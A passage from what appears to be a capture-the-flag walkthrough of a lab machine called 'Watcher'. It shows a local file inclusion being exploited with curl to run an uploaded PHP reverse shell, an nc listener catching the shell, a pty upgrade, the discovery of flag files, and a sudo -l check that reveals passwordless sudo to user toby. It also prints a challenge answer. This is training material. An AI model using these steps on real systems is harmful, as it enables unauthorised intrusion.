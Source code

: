 Now, let's exploit the LFI vulnerability to include our reverse shell:

~~~
kali@kali:/data/Watcher/files$ curl -s http://10.10.85.119/post.php?post=/home/ftpuser/ftp/files/rev.php
~~~

We now have a working shell:

~~~
kali@kali:/data/Watcher$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.85.119] 53822
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:09:37 up 59 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@watcher:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

Let's search for the 3rd flag:

~~~
www-data@watcher:/home$ find / -type f -name flag_3.txt 2>/dev/null
find / -type f -name flag_3.txt 2>/dev/null
/var/www/html/more_secrets_a9f10a/flag_3.txt
www-data@watcher:/home$ cat /var/www/html/more_secrets_a9f10a/flag_3.txt
cat /var/www/html/more_secrets_a9f10a/flag_3.txt
FLAG{lfi_what_a_guy}
~~~

Flag #3: `FLAG{lfi_what_a_guy}`

# Flag 4

*Hint: https://www.explainshell.com/explain?cmd=sudo+-l*

The next flag is in `toby`'s home folder, and is only readable by `toby`:

~~~
www-data@watcher:/home$ find / -type f -name flag_4.txt -exec ls -l {} + 2>/dev/null
<ype f -name flag_4.txt -exec ls -l {} + 2>/dev/null
-rw------- 1 toby toby 21 Dec  3 01:58 /home/toby/flag_4.txt
~~~

Checking our privileges reveals that `www-data` can execute any command as `toby` using `sudo` without password:

~~~
www-data@watcher:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
~~~
